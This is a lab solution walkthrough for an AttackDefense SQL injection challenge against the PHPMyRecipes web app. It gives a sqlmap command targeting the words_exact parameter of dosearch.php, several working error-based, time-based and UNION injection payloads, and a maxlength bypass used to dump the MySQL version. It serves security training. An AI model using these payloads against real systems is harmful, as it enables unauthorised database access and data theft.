

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">PHPMyRecipes </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=253>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : SQL Injection </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref2]



**Step 2:** Search on google “PHPMyRecipes sql injection” and look for publically available exploits.**  



The exploit db link contains a python script which can be used to exploit the SQL Injection vulnerability.  

**Exploit DB Link: <https://www.exploit-db.com/exploits/35365>** ![ref2]

**Step 3:** Find the SQL Injection payload using sqlmap. 

Analysis of the python script reveals that the “words\_exact” parameter sent in POST request to the web page “dosearch.php” webpage is vulnerable.  

**Vulnerable web page**: /dosearch.php **Vulnerable parameter:** words\_exact 

**Command:** sqlmap -u "http://xcsokyoocmginvr24rsewa6py.public1.attackdefenselabs.com/dosearch.php" --data "words\_exact=" -p words\_exact --method POST 

Enter the following answer when asked for questions. 

“y” for “Do you want to skip test payloads specific for other DBMses?”  ![ref2]

“y” for “do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values?”  

“n” for “Do you want to keep testing the others (if any) ?” 

![ref1]









**Payloads: ![ref1]**

**Type:** Error Based**  

**Payload:** words\_exact=' IN BOOLEAN MODE) AND (SELECT 2\*(IF((SELECT \* FROM (SELECT CONCAT(0x7178626a71,(SELECT (ELT(1595=1595,1))),0x7178707071,0x78))s), 8446744073709551610, 8446744073709551610)))#** 

**Type:** AND/OR time-based blind  

**Payload:** words\_exact=' IN BOOLEAN MODE) OR (SELECT \* FROM (SELECT(SLEEP(5)))olpT)# 

**Type:** Union Query 

**Payload:** words\_exact=' IN BOOLEAN MODE) UNION ALL SELECT CONCAT(0x7178626a71,0x6574657668654558444f4a666a4b514b637179786e7841777a7042 696554625943694d4c70556150,0x7178707071),NULL# 

**Step 4:** Navigate to Search tab and remove the character length restriction from the “with exact phrase” text field 

Click on the “Search” tab on the left panel ![ref2]

By default in the “with exact phrase” text field only 80 characters can be entered. Since the payload is larger than 80 characters, modify the html tag to remove the restriction. ![ref1]

Right click on the “with exact phrase” text field and click on inspect element.  

Click on “maxlength” attribute of the input tag and hit delete key. ![ref2]

**Before:**  ![ref1]



**After:**  



**Step 5:** Inject the Error based payload in the “with exact phrase” text field and exploit the SQL injection vulnerability.  

**Payload:**  'and(select 1 from(select count(\*),concat((select version() from information\_schema.tables limit 0,1),floor(rand(0)\*2))x from information\_schema.tables group by x)a)and' ![ref2]

![ref1]



Click on the Search button. 



The injected SQL query was executed.  ![ref2]

**Step 6:** Modify the payload and retrieve the MySQL server version information. Repeat Step 4 first.  

Modify the payload used in step 5 to dump the MySQL server version. 

**Modified Payload:** ' IN BOOLEAN MODE) AND (SELECT 2\*(IF((SELECT \* FROM (SELECT CONCAT(0x7178626a71,(SELECT (ELT(1595=1595,1))),0x7178707071,version()))s), 8446744073709551610, 8446744073709551610)))# 



The MySQL Server version is revealed.  **References:**  

1. PHPMyRecipes (<http://php-myrecipes.sourceforge.net/>)  ![ref2]
1. PHPMyRecipes 1.2.2 - 'dosearch.php?words\_exact' SQL Injection (<https://www.exploit-db.com/exploits/35365>)  
1. Sqlmap (<http://sqlmap.org/>)  

[ref1]: Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.002.png
[ref2]: Aspose.Words.8a778743-2061-45a6-8284-4d87d1299b0a.003.png
